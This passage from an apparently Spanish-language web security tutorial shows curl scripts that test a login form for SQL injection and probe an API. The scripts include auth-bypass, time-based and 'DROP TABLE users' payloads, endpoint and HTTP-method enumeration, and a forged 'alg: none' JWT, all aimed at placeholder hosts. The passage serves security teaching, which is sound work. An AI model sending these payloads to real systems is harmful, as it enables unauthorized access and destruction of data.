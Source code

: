 ```bash
# Test básico de SQL injection
curl -X POST -d "username=admin' OR '1'='1&password=test" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     https://vulnerable-app.com/login

# Test con time-based SQL injection
curl -X POST -d "username=admin' AND (SELECT SLEEP(5))--&password=test" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -w "Time: %{time_total}s\n" \
     https://vulnerable-app.com/login

# Test con diferentes payloads
for payload in "admin' OR '1'='1" "admin' UNION SELECT 1,2,3--" "admin'; DROP TABLE users--"; do
    echo "Testing payload: $payload"
    curl -s -X POST -d "username=$payload&password=test" \
         -H "Content-Type: application/x-www-form-urlencoded" \
         https://vulnerable-app.com/login | grep -i "error\|success\|welcome"
done
```

> [!info] Explicación
> Este ejemplo demuestra testing de SQL injection:
> 1. **Primer comando**: Prueba un payload básico de bypass de autenticación
> 2. **Segundo comando**: Testing de time-based injection midiendo el tiempo de respuesta
> 3. **Tercer comando**: Automatiza el testing con múltiples payloads
> 
> La opción `-w "Time: %{time_total}s\n"` muestra el tiempo total de la request, útil para detectar time-based attacks.

### Ejemplo 2: API enumeration y JWT token testing

```bash
# Descubrir endpoints de API
endpoints=("users" "admin" "config" "debug" "api/v1" "api/v2")
base_url="https://api.target.com"

for endpoint in "${endpoints[@]}"; do
    echo "Testing endpoint: /$endpoint"
    response=$(curl -s -w "%{http_code}" -o /dev/null "$base_url/$endpoint")
    echo "Status: $response"
    
    # Si encontramos un endpoint válido, probamos diferentes métodos
    if [[ $response == "200" ]]; then
        echo "Found valid endpoint: $endpoint"
        for method in GET POST PUT DELETE PATCH; do
            status=$(curl -s -w "%{http_code}" -o /dev/null -X $method "$base_url/$endpoint")
            echo "  $method: $status"
        done
    fi
done

# Testing JWT token manipulation
jwt_token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"

# Test con token válido
curl -H "Authorization: Bearer $jwt_token" \
     -H "Content-Type: application/json" \
     https://api.target.com/profile

# Test con token manipulado (cambiar algoritmo a none)
manipulated_token="eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ."
curl -H "Authorization: Bearer $manipulated_token" \
```